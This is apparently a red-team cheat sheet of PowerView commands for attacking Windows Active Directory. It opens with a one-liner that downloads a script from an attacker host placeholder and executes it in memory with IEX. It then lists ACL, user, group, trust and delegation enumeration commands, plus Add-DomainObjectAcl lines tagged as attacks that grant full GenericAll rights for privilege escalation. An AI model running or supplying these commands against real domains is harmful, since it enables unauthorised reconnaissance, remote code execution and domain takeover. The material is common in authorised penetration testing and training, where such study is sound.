 # powerview

% ad, windows, powerview

## load from remote
#platform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Get User from SID
#platform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#platform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#platform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#platform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get group member
```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain>
```

